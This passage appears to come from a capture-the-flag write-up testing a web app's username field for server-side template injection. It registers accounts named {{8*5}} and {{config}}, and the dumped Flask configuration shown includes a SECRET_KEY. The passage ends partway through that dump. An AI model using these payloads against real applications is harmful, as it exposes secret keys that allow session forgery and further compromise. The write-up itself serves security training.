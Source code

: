 ![[userinfo.png]]

This shows my ``username`` and corresponding ``uuid``.My ``username`` is reflected here but i can not change the ``username`` at all .At this point,i am going to check for ``SSTI`` (Server Side Template Injection).
[Server Side Template Injection- is a vunerability where the attacker injects malicious inputs into the template to execute commands on the server-side.This vunerability occurs when invalid user inputs is embeded into the template engine which can generally lead to remote code execution (RCE)]

To do that lets register a new account with username as {{8*5}} and after logging in, we visit the ``user information``to confirm that our payload has worked ;we see this:

#### user as-{{8*5}}
![[40 .png]]

YES! it shows the result of the multiplication operation as ``8*5=40``.So time to try some real injection.Maximum ``username ``length is restricted to 10 characters, which limits what we can do with the ``SSTI vulnerability``.

![[user10.png]]

What cames in mind is to try geting the configuration file using this payload 	``{{config}}``so that i can retrive the configation object of the application to which i will register a new username with ``{{config}}``

#### user as-{{config}}
![[registration.png]]

Registering anmaccount with this ``username`` results in the following being displayed on the ``user information``

#### config-retrived
![[conn.png]]

Retrived configuration  in the username field

```bash
<Config {'ENV': 'production', 
'DEBUG': False,
'TESTING': False,
'PROPAGATE_EXCEPTIONS': None,
'PRESERVE_CONTEXT_ON_EXCEPTION': None,
'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31),
'USE_X_SENDFILE': False,
'SERVER_NAME': None, 
'APPLICATION_ROOT': '/',
'SESSION_COOKIE_NAME': 'session',
'SESSION_COOKIE_DOMAIN': False,
'SESSION_COOKIE_PATH': None,
'SESSION_COOKIE_HTTPONLY': True,
'SESSION_COOKIE_SECURE': False,
'SESSION_COOKIE_SAMESITE': None,
'SESSION_REFRESH_EACH_REQUEST': True,
'MAX_CONTENT_LENGTH': None,
'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200),
'TRAP_BAD_REQUEST_ERRORS': None,
'TRAP_HTTP_EXCEPTIONS': False,
'EXPLAIN_TEMPLATE_LOADING': False,
'PREFERRED_URL_SCHEME': 'http',
'JSON_AS_ASCII': True,
'JSON_SORT_KEYS': True,
'JSONIFY_PRETTYPRINT_REGULAR': False,
'JSONIFY_MIMETYPE': 'application/json',
```